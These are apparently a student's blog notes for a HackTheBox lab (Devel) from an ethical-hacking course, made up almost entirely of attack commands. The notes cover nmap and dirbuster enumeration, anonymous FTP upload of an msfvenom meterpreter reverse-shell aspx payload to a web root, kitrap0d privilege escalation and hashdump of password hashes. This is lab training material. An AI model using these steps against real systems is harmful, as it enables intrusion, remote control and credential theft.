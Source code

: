 ```yaml
---
layout:     post
title:      TCM PEH Hacking Devel Notes
date:       2021-03-14
summary:    TheCyberMentor's Practical Ethical Hacking course, HackTheBox Devel notes
categories: certs
thumbnail: cogs
tags:
 - htb
 - certs
---
```



<h2 class="code-line" data-line-start=0 data-line-end=1 ><a id="HTB_Devel_0"></a>HTB Devel</h2>
<p class="has-line-data" data-line-start="2" data-line-end="8">nmap -T4 -A -p- 10.10.10.5<br>
Noted port 21 open<br>
Noted possible web root dir at port 21 contents<br>
Noted port 80<br>
Noted possible default page at port 80<br>
Noted Windows OS</p>
<hr>
<p class="has-line-data" data-line-start="9" data-line-end="21">Visited <a href="http://10.10.10.5:80">http://10.10.10.5:80</a><br>
view source<br>
Noted confirmed default webpage IIS7<br>
dirbuster&amp;<br>
<a href="http://10.10.10.5:80">http://10.10.10.5:80</a><br>
check more threads<br>
usr/share/wordlist/dirbuster/*small.txt<br>
check directories<br>
check files<br>
check recurse<br>
file extention asm, asmx, asp, aspx, txt, zip, bak, rar<br>
start</p>
<hr>
<p class="has-line-data" data-line-start="22" data-line-end="32">cd Desktop<br>
ftp 10.10.10.5<br>
anonymous<br>
anonymous<br>
help<br>
ls<br>
pwd<br>
put dog.jpg<br>
ls<br>
Noted it did copy in dog.jpg</p>
<hr>
<p class="has-line-data" data-line-start="33" data-line-end="43">Googled msfvenom, looked for .asp payload format<br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx &gt; ex.aspx<br>
msfconsole<br>
use exploit/multi/handler<br>
options<br>
set payload windows/meterpreter/reverse_tcp<br>
options<br>
set LHOST 10.10.14.24<br>
set LPORT 4444<br>
run</p>
<hr>
<p class="has-line-data" data-line-start="44" data-line-end="49">ftp 10.10.10.5<br>
anynomous<br>
anonymous<br>
binary<br>
put ex.aspx</p>
<hr>
<h2 class="code-line" data-line-start=50 data-line-end=52 ><a id="http1010105exaspx_50"></a><a href="http://10.10.10.5/ex.aspx">http://10.10.10.5/ex.aspx</a></h2>
<p class="has-line-data" data-line-start="52" data-line-end="86">In metasploit<br>
sysinfo<br>
getuid<br>
Noted not root<br>
hashdump<br>
getsystem<br>
background<br>
search suggester<br>
use post/multi/recon/local_exploit_suggester<br>
set session 1<br>
exploit<br>
use /exploit/windows/local/ms10_015_kitrap0d<br>
options<br>
set session 1<br>
options<br>
exploit<br>
Noted failed, but more options will show now<br>
options<br>
set LHOST 10.10.14.24<br>
set LPORT 4445<br>
exploit<br>
Note failed because listener died<br>
use exploit/multi/handler<br>
options<br>
run<br>
background<br>
use /exploit/windows/local/ms10_015_kitrap0d<br>
set session 2<br>
options<br>
exploit<br>
Noted meterpreter shell<br>
getuid<br>
Noted root<br>
hashdump</p>



